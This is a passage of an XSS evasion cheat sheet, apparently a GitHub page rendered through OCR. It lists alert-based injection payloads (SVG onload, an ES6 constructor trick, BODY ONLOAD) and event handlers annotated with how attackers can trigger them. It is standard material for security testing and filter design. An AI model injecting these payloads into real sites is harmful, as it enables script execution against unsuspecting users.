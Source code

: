 
## SVG Object Tag
```js
<svg/onload=alert('XSS')>
```

## ECMAScript 6

```js
Set.constructor`alert\x28document.domain\x29
```

## BODY Tag
Method doesn’t require using any variants of javascript: or `<SCRIPT`... to accomplish the XSS attack). Dan Crowley additionally noted that you can put a space before the equals sign `(onload= != onload =)`:

```js
<BODY ONLOAD=alert('XSS')>
```

## Event Handlers
It can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.

The Dottoro Web Reference also has a nice list of events in JavaScript.

```
FSCommand() (attacker can use this when executed from within an embedded Flash object)
onAbort() (when user aborts the loading of an image)
onActivate() (when object is set as the active element)
onAfterPrint() (activates after user prints or previews print job)
onAfterUpdate() (activates on data object after updating data in the source object)
onBeforeActivate() (fires before the object is set as the active element)
onBeforeCopy() (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the execCommand("Copy") function)
onBeforeCut() (attacker executes the attack string right before a selection is cut)
onBeforeDeactivate() (fires right after the activeElement is changed from the current object)
onBeforeEditFocus() (Fires before an object contained in an editable element enters a UI-activated state or when an editable container object is control selected)
onBeforePaste() (user needs to be tricked into pasting or be forced into it using the execCommand("Paste") function)
onBeforePrint() (user would need to be tricked into printing or attacker could use the print() or execCommand("Print") function).
onBeforeUnload() (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
onBeforeUpdate() (activates on data object before updating data in the source object)
onBegin() (the onbegin event fires immediately when the element’s timeline begins)
onBlur() (in the case where another popup is loaded and window looses focus)
onBounce() (fires when the behavior property of the marquee object is set to “alternate” and the contents of the marquee reach one side of the window)
onCellChange() (fires when data changes in the data provider)
onChange() (select, text, or TEXTAREA field loses focus and its value has been modified)
onClick() (someone clicks on a form)
onContextMenu() (user would need to right click on attack area)
onControlSelect() (fires when the user is about to make a control selection of the object)
onCopy() (user needs to copy something or it can be exploited using the execCommand("Copy") command)
onCut() (user needs to copy something or it can be exploited using the execCommand("Cut") command)
onDataAvailable() (user would need to change data in an element, or attacker could perform the same function)
onDataSetChanged() (fires when the data set exposed by a data source object changes)
onDataSetComplete() (fires to indicate that all data is available from the data source object)
onDblClick() (user double-clicks a form element or a link)
```